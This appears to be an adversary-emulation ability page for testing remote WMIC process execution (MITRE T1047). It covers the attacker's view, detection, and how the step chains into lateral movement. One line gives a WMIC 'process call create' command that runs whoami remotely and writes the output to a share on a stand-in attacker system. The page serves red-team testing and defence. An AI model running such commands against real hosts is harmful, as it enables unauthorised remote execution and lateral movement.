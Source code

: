 
# Test remote WMIC access

#### Metadata

- *Prelude ID*: 661efd66-d876-41de-88ee-ba9ec4328154
- *MITRE Technique ID*: [T1047](https://attack.mitre.org/techniques/T1047/)

### A hacker's perspective

Windows Management Interface Command (WMIC) is a powerful "live-off-the-land" binary for interacting with WMI. Knowingthat I am able to execute WMI commands against remote systems tells me several things about my current permissionsand how the target host is configured. I know, first of all, that my user has requisite privileges to execute commandsremotely, which can allow me to move laterally in a number of ways. Secondly, I can make the assumption that remotehosts are Distributed Component Object Model (DCOM) accessible, which lets me know I have a possible execution mechanismon that host.

### Expected output

Short response indicated a (Win32_Process)->Create() was successful on the remote system with a return value of 0.

### Basic variations

This command can easily be modified for both local and remote discovery. With WMIC, we could also query other WMIclasses like Win32_ComputerSystem or Win32_Share to discover more about the system. It is also possible to execute moreintricate commands to get a response by using a technique like 'process call create "cmd.exe /c whoami >> \\<ATTACKING SYSTEM>\<PUBLIC SHARE>\cmd_response.txt"'.

### Prevent + Detect

Capturing PowerShell and command-line input would allow defenders to see calls to the WMIC binary, which might be suspiciousdepending upon the environment. Additionally, consider disabling DCOM access so that WMIC cannot be used to executecode through DCOM remotely. The Windows firewall will block DCOM access by default as well, so review domain GroupPolicy Objects (GPOs) to ensure that Windows firewall is enabled and configured to block inbound DCOM.

### How it is chained

An attacker that is testing their ability to execute commands/process on remote systems is almost certainly lookingto move laterally to a new target. Likely next steps would be staging tools on the remote system (T1570) via SMB oranother innocous protocol, then executing the staged payload with WMIC over DCOM (T1021.003) or WinRM (T1021.006).
